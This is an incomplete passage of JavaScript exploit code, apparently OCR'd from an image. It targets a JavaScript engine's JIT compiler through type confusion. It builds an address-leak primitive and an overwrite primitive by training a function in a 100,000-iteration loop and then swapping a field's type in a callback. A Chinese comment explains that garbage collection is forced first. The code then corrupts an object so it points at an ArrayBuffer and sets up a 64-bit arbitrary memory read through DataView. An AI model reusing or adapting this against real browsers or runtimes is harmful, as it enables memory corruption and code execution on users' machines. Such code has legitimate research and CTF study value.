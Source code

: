 ```javascript

	function triggerReadTypeConfuse(o, callback) {
    		var tmp = o.a;
    		callback();
    		return o.b;
	}
	function evil() {
    		o.b = obj;
	}
	for(let i=0; i<100000; i++) {
    		triggerReadTypeConfuse(o, ()=>1);
    		triggerReadTypeConfuse(o, ()=>2);
   			triggerReadTypeConfuse(o, ()=>3);
	}

	let addr = f2i(triggerReadTypeConfuse(o, evil));
	return addr;
}

function overwrite_p(target, value){
	var o = {a: 1};
	o.b = 13.27;
	function triggerReadTypeConfuse(o, callback) {
    		var tmp = o.a;
    		callback();
			o.b = value;
    		return o.b;
	}
	function evil() {
    		o.b = target;
	}
	for(let i=0; i<100000; i++) {
    		triggerReadTypeConfuse(o, ()=>1);
    		triggerReadTypeConfuse(o, ()=>2);
    		triggerReadTypeConfuse(o, ()=>3);
	}
	var r = triggerReadTypeConfuse(o, evil);
}

var data_buf = new ArrayBuffer(200);

gc(); // 需要进行垃圾回收，将data_buf移到old space，并且地址不会再变化，不进行回收，后续会失败。

var data_buf_addr = addrOf(data_buf);
var victim = {inline:42};

victim.offset0 = {};
victim.offset8 = {};
victim.offset16 = {};

overwrite_p(victim, i2f(data_buf_addr));

var view_buf = new ArrayBuffer(200);
victim.offset16 = view_buf;

var data_view = new DataView(data_buf);

function dataview_read64(addr)
{
	data_view.setFloat64(31, i2f(addr), true);
	var view_view = new DataView(view_buf);
	return f2i(view_view.getFloat64(0, true));
}
```
